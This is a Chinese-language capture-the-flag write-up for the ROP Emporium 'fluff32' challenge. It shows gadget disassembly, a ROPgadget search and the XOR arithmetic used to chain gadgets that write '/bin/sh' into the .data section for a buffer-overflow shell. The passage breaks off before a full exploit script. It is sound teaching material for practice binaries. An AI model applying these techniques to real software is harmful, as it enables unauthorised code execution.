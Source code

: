 > There's not much more to this challenge, we just have to think about ways to move data into the registers we want to control.
Sometimes we'll need to take an indirect approach

有点挑战性的一题，和 3-write4 一样要自己写一个 "/bin/sh\x00" 到内存某处，然后 ret 到 `system("/bin/sh")`。

只是这次的 ROP Gadgets 不像之前的那么直观、好用了，必须绕点路。

<br>

## Reverse
列举一下 functions，bof 的点一样是在 pwnme() 里调用 fgets() 处。
```
pwndbg> info func
（省略若干行）
0x0804857b  main
0x080485f6  pwnme
0x0804864c  usefulFunction
0x08048670  questionableGadgets
```

看一下 questionableGadgets。经过一番思考，我总共找到四个有用的 gadgets，但其中一个不在这里，待会会提到。
```
pwndbg> disas questionableGadgets
Dump of assembler code for function questionableGadgets:
   0x08048670 <+0>:     pop    edi
   0x08048671 <+1>:     xor    edx,edx
   0x08048673 <+3>:     pop    esi
   0x08048674 <+4>:     mov    ebp,0xcafebabe
   0x08048679 <+9>:     ret
   0x0804867a <+10>:    pop    esi
   0x0804867b <+11>:    xor    edx,ebx             <------ gadget3
   0x0804867d <+13>:    pop    ebp
   0x0804867e <+14>:    mov    edi,0xdeadbabe
   0x08048683 <+19>:    ret
   0x08048684 <+20>:    mov    edi,0xdeadbeef
   0x08048689 <+25>:    xchg   edx,ecx             <------ gadget4
   0x0804868b <+27>:    pop    ebp
   0x0804868c <+28>:    mov    edx,0xdefaced0
   0x08048691 <+33>:    ret
   0x08048692 <+34>:    pop    edi
   0x08048693 <+35>:    mov    DWORD PTR [ecx],edx <------ gadget1
   0x08048695 <+37>:    pop    ebp
   0x08048696 <+38>:    pop    ebx
   0x08048697 <+39>:    xor    BYTE PTR [ecx],bl
   0x08048699 <+41>:    ret
   0x0804869a <+42>:    xchg   ax,ax
   0x0804869c <+44>:    xchg   ax,ax
   0x0804869e <+46>:    xchg   ax,ax
End of assembler dump.
```

接着用 ROPGadget 搜索所有 Gadgets，又找到找到一个可用的，我们就叫他 gadget2。
```
$ ROPGadget --binary fluff32 | grep 'pop ebx'
（省略若干行）
0x080483e1 : pop ebx ; ret                         <------ gadget2
（省略若干行）
```

<br>

## ROP Gadgets
各个 Gadgets 的功用：
1. gadget1：这里给了我们一个方法，把数据写入内存，但我们必须能控制 ecx, edx。写入后会 `xor byte ptr [ecx], bl`
2. gadget4：`xhcg ecx, edx`，并且 `mov edx, 0xdefaced0`
3. gadget3：`xor edx, ebx`
4. gadget2：让我们能控制 ebx 值

有了这四个 gadgets，就可以写入任意数据到内存了，只是有点绕。。。
1. 先用 gadget4，设定 edx = 0xdefaced0
2. 再用 gadget2，设定 ebx = 我们给的值
3. 再用 gadget3，xor edx, ebx，异或结果会存在 edx
4. 最后 gadget4，`xhcg ecx, edx` 把 edx 结果存入 ecx，然后重新设定 edx = 0xdefaced0

到这里，我们已经有办法把 address 写入 ecx 了，再着：
5. 再用 gadget2，设定 ebx = 我们给的值
6. 再用 gadget3，xor edx, ebx，异或结果会存在 edx
7. 最后 gadget1，`mov [ecx], edx`

就完成一个 32-bit 数据的写入（到内存）。

<br>

## Pwn
那么 ebx 怎么设呢？很明显，我们的 "xor_key" 就是 0xdefaced0，假设今天我们要传入 "/bin"（0x6e69622f）
```
0x6e69622f ^ 0xdefaced0 = 0xb093acff
0xb093acff ^ 0xdefaced0 = 0x6e69622f
```

有发现吗？只要 xor_key 不变，XOR 两次之后就会变成最初的数字。因此如果想传入 0x6e69622f，我们传 0xb093acff 就行了。
但有个坑点要注意，因为 gadget1 在执行内存写入之后，还会 `xor byte ptr [ecx], bl`，
只要我们让 bl = 0xd0（也就是 defaced0 最后这个 d0），那么第一个 byte 就会被用同一个 xor_key XOR 两次。
既然会被 XOR 两次，这代表我们第一个 byte 直接传入 2f 就行了而不是 ff。

0xb093ac"**ff**" -> 0xb093ac“**2f**”

<br>

目前我们已经实现了「写入任意数据到内存的任意位址」，我们如果要写入 "/bin/sh\x00"，只要进行两次以上的步骤即可。

至于要写入哪里，一样用 `readelf -S fluff32`，找到 .data 的头位址，写入该处即可。（写入其他 writable sections 也可）
